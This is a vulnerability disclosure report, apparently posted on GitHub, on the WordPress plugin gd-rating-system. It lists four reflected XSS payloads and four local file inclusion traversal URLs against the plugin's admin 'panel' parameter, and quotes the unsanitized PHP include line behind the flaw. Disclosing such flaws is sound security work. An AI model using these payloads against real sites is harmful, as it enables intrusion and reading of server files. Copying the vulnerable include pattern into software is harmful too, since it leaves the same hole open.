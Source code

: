Well ,sir ,I just found some XSS bugs and LFI(Local File Include) bug here.

The report link to the wordpress-form is missing, because the manager do not wish to put the public in danger ,I'll just write some details here.

#### XSS

Here different php files suffer from the bug, exactly, some other files also don't filter well.

##### XSS1

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-information&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss%2F)%3E%3C%27%22
```

##### XSS2

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-about&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss2%2F)%3E%3C%27%22
```


##### XSS3


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-transfer&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss3%2F)%3E%3C%27%22
```


##### XSS4


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-tools&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss4%2F)%3E%3C%27%22
```


![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/gd-rating-system/xss.png)

### LFI

Here we use the bug to include the "phpinfo.php" file in the wwwroot, exactly, we can include or read any file in the webserver.

##### LFI1 poc

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-information&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/information.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```

##### LFI2 poc

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-about&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/about.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```


##### LFI3 poc


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-transfer&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/transfer.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```


##### LFI4 poc


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-tools&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/tools.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/gd-rating-system/lfi.png)


Well,  by the way, I just test these bugs in the wordpress 4.9.1 and the latest version of the wp-plugin gd-rating-system.
